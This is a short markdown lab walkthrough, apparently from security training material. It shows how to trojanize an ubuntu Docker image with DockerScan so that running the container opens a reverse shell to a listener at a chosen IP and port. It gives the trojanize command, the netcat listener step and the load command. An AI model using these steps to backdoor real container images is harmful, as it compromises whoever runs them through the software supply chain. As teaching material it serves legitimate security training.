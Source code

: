 # **`Trojanize Docker - DockerScan`**

###### A docker image can be trojanized by a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container 

##### Step 1:

* Pull and save ubuntu image (`ubuntu:latest`) that is to be trojanized.

```commandline
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-latest
``` 

![](img/trojan-docker-1.png)

##### Step 2:

* Fetch VM IP by running `ifconfig`

![](img/trojan-docker-2.png)


##### Step 3:

* Set the necessary environment variables for `dockerscan` to run

```bash
export LC_ALL=C.UTF-8

export LANG=C.UTF-8
```

* Trojanize the saved docker file by running `dockerscan image modify trojanize ubuntu-latest -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-latest-trojanized`. It will create a `.tar` file.

![](img/trojan-docker-3.png)


##### Step 4:

* Once the command on Step 3 has been run, a `netcat` command is returned. Copy and paste the command in another tab.

![](img/trojan-docker-4.png)


##### Step 5:

* Load the trojanized docker `.tar` file by running `docker load -i ubuntu-latest-trojanized.tar`

![](img/trojan-docker-5.png)


##### Step 6:

* When the trojanized docker is run, the listener should have reverse-shell access to the container

![](img/trojan-docker-6.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
